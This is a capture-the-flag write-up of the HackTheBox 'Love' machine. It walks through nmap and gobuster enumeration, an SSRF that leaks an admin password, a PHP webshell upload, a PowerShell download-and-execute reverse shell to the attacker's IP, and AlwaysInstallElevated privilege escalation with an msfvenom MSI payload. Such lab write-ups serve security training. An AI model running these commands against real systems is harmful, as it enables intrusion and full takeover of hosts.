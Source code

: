 # Love
## Information Gathering
#### Master List
- Port 443
	- From nmap scan
		- User: `roy@love.htb`
		- commonName=staging.love.htb
		- organizationName=ValentineCorp
		- localityName=norway
		- OrganizationalUnit=love.htb
	- @ 10.10.10.239/admin.php
		- Possible user enumeration from error code returned
	- Added staging.love.htb and love.htb to /etc/hosts
		- staging.love.htb/index.php - "We are not live yet..." may imply we are presented with a testing area
		- staging.love.htb/beta.php
			- Started up python server and hosted dummy docx to see if the remote server can reach me
				- http://10.10.14.10:1337/vuln.docx - we get a ping back
			- There is a SSRF @ staging.love.htb/beta.php in the file input field
				- http://localhost - baseline
				- gopher://localhost:3306 - we can reach the database

#### Ports/Services
x 135/tcp     msrpc        
445/tcp     microsoft-ds 
5000/tcp    http         
5040/tcp    unknown      
5985/tcp    http         
7680/tcp    pando-pub?   
47001/tcp   http         
49664/tcp   msrpc        
49665/tcp   msrpc        
49666/tcp   msrpc        
49667/tcp   msrpc        
49668/tcp   msrpc        
49669/tcp   msrpc        
49670/tcp   msrpc

#### Software
- Port 443
	- Apache httpd 2.4.46
	- OpenSSL/1.1.1j
	- PHP/7.3.27

## Enumeration
#### Nmap scan
```bash
PORT     STATE SERVICE      REASON          VERSION
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
443/tcp  open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/organizationalUnitName=love.htb/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/localityName=norway/organizationalUnitName=love.htb/emailAddress=roy@love.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
| SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
| -----BEGIN CERTIFICATE-----
| MIIDozCCAosCFFhDHcnclWJmeuqOK/LQv3XDNEu4MA0GCSqGSIb3DQEBCwUAMIGN
| MQswCQYDVQQGEwJpbjEKMAgGA1UECAwBbTEPMA0GA1UEBwwGbm9yd2F5MRYwFAYD
| VQQKDA1WYWxlbnRpbmVDb3JwMREwDwYDVQQLDAhsb3ZlLmh0YjEZMBcGA1UEAwwQ
| c3RhZ2luZy5sb3ZlLmh0YjEbMBkGCSqGSIb3DQEJARYMcm95QGxvdmUuaHRiMB4X
| DTIxMDExODE0MDAxNloXDTIyMDExODE0MDAxNlowgY0xCzAJBgNVBAYTAmluMQow
| CAYDVQQIDAFtMQ8wDQYDVQQHDAZub3J3YXkxFjAUBgNVBAoMDVZhbGVudGluZUNv
| cnAxETAPBgNVBAsMCGxvdmUuaHRiMRkwFwYDVQQDDBBzdGFnaW5nLmxvdmUuaHRi
| MRswGQYJKoZIhvcNAQkBFgxyb3lAbG92ZS5odGIwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQDQlH1J/AwbEm2Hnh4Bizch08sUHlHg7vAMGEB14LPq9G20
| PL/6QmYxJOWBPjBWWywNYK3cPIFY8yUmYlLBiVI0piRfaSj7wTLW3GFSPhrpmfz0
| 0zJMKeyBOD0+1K9BxiUQNVyEnihsULZKLmZcF6LhOIhiONEL6mKKr2/mHLgfoR7U
| vM7OmmywdLRgLfXN2Cgpkv7ciEARU0phRq2p1s4W9Hn3XEU8iVqgfFXs/ZNyX3r8
| LtDiQUavwn2s+Hta0mslI0waTmyOsNrE4wgcdcF9kLK/9ttM1ugTJSQAQWbYo5LD
| 2bVw7JidPhX8mELviftIv5W1LguCb3uVb6ipfShxAgMBAAEwDQYJKoZIhvcNAQEL
| BQADggEBANB5x2U0QuQdc9niiW8XtGVqlUZOpmToxstBm4r0Djdqv/Z73I/qys0A
| y7crcy9dRO7M80Dnvj0ReGxoWN/95ZA4GSL8TUfIfXbonrCKFiXOOuS8jCzC9LWE
| nP4jUUlAOJv6uYDajoD3NfbhW8uBvopO+8nywbQdiffatKO35McSl7ukvIK+d7gz
| oool/rMp/fQ40A1nxVHeLPOexyB3YJIMAhm4NexfJ2TKxs10C+lJcuOxt7MhOk0h
| zSPL/pMbMouLTXnIsh4SdJEzEkNnuO69yQoN8XgjM7vHvZQIlzs1R5pk4WIgKHSZ
| 0drwvFE50xML9h2wrGh7L9/CSbhIhO8=
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?       syn-ack ttl 127
| fingerprint-strings: 
|   SSLv23SessionReq: 
|_    Host '10.10.14.10' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '10.10.14.10' is not allowed to connect to this MariaDB server
5000/tcp open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27

```

From the TLS certificate we see a CN staging.love.htb. I add love.htb and staging.love.htb.
At love.htb, run a gobuster
```bash
$ gobuster dir -u http://love.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt,html,php

/images               (Status: 301) [Size: 338] [--> http://www.love.htb/images/]
/admin                (Status: 301) [Size: 337] [--> http://www.love.htb/admin/]
/plugins              (Status: 301) [Size: 339] [--> http://www.love.htb/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://www.love.htb/includes/]
/dist                 (Status: 301) [Size: 336] [--> http://www.love.htb/dist/]
/Plugins              (Status: 301) [Size: 339] [--> http://www.love.htb/Plugins/]
/Includes             (Status: 301) [Size: 340] [--> http://www.love.htb/Includes/]
/Dist                 (Status: 301) [Size: 336] [--> http://www.love.htb/Dist/]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/Home.php             (Status: 302) [Size: 0] [--> index.php]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/index.php            (Status: 200) [Size: 4388]
```

## Exploitation
Navigating to http://staging.love.htb/beta.php, it seems to be some site scanner for malware, similar to VirusTotal. 

After trying a few inputs, I decide to spin up a temporary HTTP server `python3 http.server 8080` and make a temp doc to see if I can get a connection back which I can.

I then try http://127.0.0.1 and get the same login prompt as http://love.htb/index.php. It's pretty clear that this is a SSRF. 

I fiddle around a bit with the SSRF trying to dump credentials from 3306. root does not need a password to login to the DB and I dump the admin hash. However, John is never able to crack the password. 

I try other ports and eventually, http://127.0.0.1:5000 dumps the admin password in cleartext as `admin:@LoveIsInTheAir!!!!`

I use these credentials to login to http://love.htb/admin.php

After a bit of poking around in the admin console, I see that I can upload images in a few different places. 
- Profile picture
- /admin/voters.php
- /admin/candidates.php

I upload webshell.php from the profile picture but don't see anything in http://love.htb/images. I then try the same thing for /admin/voters.php. Boom, I have a webshell. Running `whoami` and I get back that I'm `love\phoebe`

Almost there...

I do the three stage AV:
1. Get Invoke-PowerShellTcp.ps1 (don't forget to add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 53` to the bottom of the script) and start up a python webserver with `python -m http.server 8080`
2. Start your reverse shell `nc -lnvp 53`
3. In the webshell execute `powershell iex(new-object net.webclient).downloadstring('http://10.10.14.10:8080')`

This **finally** gets you foothold

## Privilege Escalation
After fiddling around for a while looking at different applications installed in Program Files and Program Files (x86) and looking at UAC stuff, I decided to run winPEASany.exe.

We get a low-hanging fruit in the form of AlwaysInstallElevated. I verify the results;
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	0x1
	
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	0x1
```

I generate a MSI reverse shell payload with msfvenom
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=666 -f msi -o reverse.msi
```

Transfer this file over however you like. Startup a reverse shell `nc -lnvp 666` and install
```powershell
msiexec /quiet /qn /i reverse.msi
```

You get a root shell